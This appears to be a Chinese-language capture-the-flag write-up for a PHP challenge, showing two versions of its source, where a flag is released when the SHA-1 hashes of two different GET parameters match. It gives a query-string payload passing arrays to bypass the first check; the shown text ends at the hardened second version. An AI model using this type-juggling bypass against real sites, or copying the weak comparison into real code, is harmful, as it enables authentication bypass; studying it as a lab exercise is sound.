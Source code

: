```php
<?php
error_reporting(0);

$flag=getenv('flag');
if (isset($_GET['user']) and isset($_GET['pass'])) 
{
    if ($_GET['user'] == $_GET['pass'])
        echo 'no no no no way for you to do so.';
    else if (sha1($_GET['user']) === sha1($_GET['pass']))
      die('G1ve u the flag'.$flag);
    else
        echo 'not right';
}
else
    echo 'Just g1ve it a try.';
highlight_file(__FILE__);
?>
```

经典的强弱比较，数组绕

```
baby_magic.php?user[]=1&pass[]=2
```

![](https://i.loli.net/2021/10/27/el6iEZ2mVHQGobr.png)

访问之

```php
<?php
error_reporting(0);

$flag=getenv('fllag');
if (isset($_GET['user']) and isset($_GET['pass'])) 
{
    if ($_GET['user'] == $_GET['pass'])
        echo 'no no no no way for you to do so.';
    else if(is_array($_GET['user']) || is_array($_GET['pass']))
        die('There is no way you can sneak me, young man!');
    else if (sha1($_GET['user']) === sha1($_GET['pass'])){
      echo "Hanzo:It is impossible only the tribe of Shimada can controle the dragon<br/>";
      die('Genji:We will see again Hanzo'.$flag.'<br/>');
    }
    else
        echo 'Wrong!';
}else
    echo 'Just G1ve it a try.';
highlight_file(__FILE__);
?>
//刚才大意了 没有检测数组就让你执行了sha1函数 不讲武德 来偷袭 这下我修复了看你还能怎么办 🤡 //刚才大意了 没有检测数组就让你执行了sha1函数 不讲武德 来偷袭 这下我修复了看你还能怎么办 🤡
```
